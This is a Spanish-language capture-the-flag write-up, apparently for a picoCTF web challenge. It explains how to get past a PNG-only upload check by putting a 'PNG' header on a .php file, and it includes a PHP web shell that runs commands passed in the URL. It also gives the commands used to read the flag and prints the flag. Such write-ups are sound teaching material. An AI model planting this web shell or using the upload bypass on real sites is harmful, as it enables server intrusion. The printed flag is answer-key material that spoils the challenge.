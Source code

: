## Descripción
I found a web app that can help process images: PNG images only! Additional details will be available after launching your challenge instance.

Encontré una aplicación web que puede ayudar a procesar imágenes: ¡solo imágenes PNG! Los detalles adicionales estarán disponibles después de iniciar tu instancia de desafío.
## Solución
La pagina valida si un archivo es PNG, si por ejemplo intentamos subir un archivo `.txt`llamado `text.png`nos indica que no es un archivo PNG, pero si al inicio de texto ponemos `PNG` si lo admite, por lo que podemos usar esta vulnerabilidad. Usando `bloc de notas`de Windows creamos un archivo llamado `text.png.php`con el siguiente código:
```php
PNG
<?php
if (isset($_GET['cmd'])){
	system($_GET['cmd']);
}
?>
```
Esto nos permite mandar comandos a la consola de la maquina donde esta la página, si por ejemplo agregamos `/uploads/text.png.php?cmd=ls`al url de la página podemos ver los archivos subidos a la página. Ahora solo buscamos la bandera:
- Con `/uploads/text.png.php?cmd=pwd` salimos de la carpeta y vemos la dirección donde estamos.
- Con `/uploads/text.png.php?cmd=ls ..`podemos ver los archivos en la carpeta actual y ahí encontramos el archivo `GNTDOMBWGIZDE.txt` que es donde se encuentra la bandera.
- Con `/uploads/text.png.php?cmd=cat ../GNTDOMBWGIZDE.txt` podemos leerlo y así ver la bandera: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}`